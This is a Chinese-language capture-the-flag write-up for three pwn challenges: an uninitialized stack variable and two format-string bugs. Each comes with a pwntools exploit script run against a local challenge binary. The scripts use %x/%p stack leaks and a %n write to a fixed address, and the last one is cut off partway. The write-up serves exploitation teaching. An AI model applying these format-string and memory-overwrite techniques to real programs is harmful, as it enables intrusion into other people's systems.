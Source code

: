 ## uninitialized key plus

和上一题唯一的差别是`get_name`函数的输入变成了字符串，注意观察一下变量在栈中的位置，然后写个脚本

exp:

```python
#!/usr/bin/env python3
from pwn import*

io = process('./uninitialized_key_plus')

io.sendline(b'A'*0x14+p32(114514))
io.sendline(b'-')

io.interactive()
```

## format_level0

程序将flag读到栈中，且存在格式化字符串漏洞，因此可以使用%p来泄露栈中数据

得到数据后，先从十六进制转化为字符串，由于为小端序，需要每四位颠倒一下

```python
#!/usr/bin/env python3
from pwn import*
context.log_level = 'debug'

io = process('./format_level0')

#attach(io)
#pause()

io.send(b'%7$x%8$x%9$x%10$x%11$x%12$x%13$x%14$x%15$x%16$x%17$x%18$x')
io.recvuntil(b'Your name is: ')

io.interactive()
```

## format_level1

未开启PIE，程序一共有三个功能，`attack()`，`chendian()`，`talk()`

其中`talk`功能中存在格式化字符串漏洞，那么我们只需要修改`pwner.ATK`为一个很大的值，或者修改`dragon.HP`为0然后`attack`即可到达`success`

exp:

```python
#!/usr/bin/env python3
from pwn import*
context.log_level = 'debug'

io = process('./format_level1')

def choose(choice):
    io.recvuntil(b'Your choice: ')
    io.sendline(str(choice).encode())

#减小dragon的HP
def payload1():
    choose(3)
    io.recvuntil(b'Input what you want to talk: ')
    io.send(b'%8$n'+p32(0x804c00c))
    choose(1)

#增大pwner的ATK
```